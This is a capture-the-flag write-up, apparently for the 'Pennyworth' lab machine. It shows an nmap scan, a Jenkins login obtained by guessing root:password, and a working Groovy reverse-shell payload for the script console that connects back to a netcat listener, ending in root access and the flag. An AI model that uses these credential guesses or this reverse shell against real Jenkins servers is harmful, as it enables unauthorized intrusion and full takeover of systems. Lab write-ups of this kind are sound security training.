


- [nmap](#nmap)
- [Web Access](#web-access)
- [Getting Shell](#getting-shell)


# Pennyworth Enumeration

## nmap 

```bash
$ nmap pennyworth.htb 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-27 23:01 JST
Stats: 0:00:17 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 56.40% done; ETC: 23:02 (0:00:13 remaining)
Stats: 0:00:17 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 60.17% done; ETC: 23:02 (0:00:12 remaining)
Nmap scan report for pennyworth.htb (10.129.231.216)
Host is up (0.20s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
8080/tcp open  http-proxy
```


```bash
nmap -sCV pennyworth.htb 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-27 23:25 JST
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 31.62% done; ETC: 23:25 (0:00:06 remaining)
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 42.12% done; ETC: 23:25 (0:00:04 remaining)
Nmap scan report for pennyworth.htb (10.129.231.216)
Host is up (0.21s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn\'t have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/

```

Seems like it only has one open HTTP server at `8080`

Key findings: 
- HTTP on port 8080

## Web Access

Accessing `http://pennyworth.htb:8080` ( I added target IP in `/etc/hosts`) led me to a login page for `Jenkins`



Jenkins seems to be an [open-soucred CI/CD](https://www.jenkins.io/) ? I could not find any information on default credential for this product. Given the limited intel, I'm assuming the credential is something basic such as
- `root:password`
- `root:admin`
- `admin:admin`

Turns out `root:password` was the correct combination.

Now, Jenkins is a CI/CD tool, so it's likely that there is a way to upload a script to the tool and somehow get shell. A some research led me to [this website](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6), which has detailed steps on getting shell using the script console.



## Getting Shell

Following the website guide, I have to paste the shell command to the script console while listening to a designated port. For this case, I used port 4444 as a listener..

```bash
$nc -lvnp 4444
```

```groovy
String host="{my localhost port}";
int port=4444;
String cmd="bash";
Process p=new

ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And this gave me shell acces!! 

```bash
$ nc -lvnp 4444           
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.231.216] 51662
ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var

cd root
ls
flag.txt
snap

cat flag.txt
9cd**
```
